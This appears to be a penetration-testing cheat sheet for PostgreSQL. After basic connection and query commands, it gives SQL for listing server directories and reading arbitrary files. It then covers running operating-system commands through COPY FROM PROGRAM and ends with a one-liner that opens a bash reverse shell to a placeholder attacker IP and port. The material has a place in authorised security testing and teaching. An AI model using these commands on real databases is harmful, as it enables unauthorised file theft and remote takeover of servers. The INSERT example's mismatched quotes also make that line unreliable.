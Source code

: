```yaml
---
title: "Postgresql"
date: 2025-7-17
tags: ["Database Dumping", "Privilege Escalation In Databases", "Postgresql", "RCE", "Database", "File Read"]
---
```


### Connect

```console
psql -h <TARGET> -U <USER>
```

```console
psql -h <TARGET> -U <USER> -p <PORT> -d <DB_NAME>
```

```console
psql 'postgresql://<USER>:<PASSWORD>@localhost:5432/<DB_NAME>'
```

### Basic

```console
# Show Databases
\list
```

```console
# Use Database
\connect <DB_NAME>
```

```console
# Show Tables
\dt
```

```console
# Dump from Table
select * from "<TABLE_NAME>";
```

```console
# Insert into Table
insert into "<TABLE_NAME>" (<COLUMN_1>, <COLUMN_2>) values ("<VALUE_1>', '<VALUE_2>');
```

```console
# Write Text
copy (select '<STRING>') to '<TARGET_PATH>';
```

```console
# List All User Accounts
\du+
```

```console
# Exit
\q
```

---

### File Read

```console
# List Directory
SELECT * FROM pg_ls_dir('<DIR_PATH>');
``` 

```console
# File Read
SELECT pg_read_file('<FILE_PATH>', 0, 4096);
```

---

### RCE

```console
# Only for Superuser
CREATE TABLE IF NOT EXISTS exec(string text);
```

```console
# Code Execution
COPY exec FROM PROGRAM '<CMD>';
```

```console
# Check Ouput
SELECT * FROM exec;
```

```console
# One-liner
DO $$ DECLARE c text; BEGIN c := 'COPY (SELECT '''') to program ''bash -c "bash -i >& /dev/tcp/<LOCAL_IP>/<PORT> 0>&1"'''; EXECUTE c; END $$;
```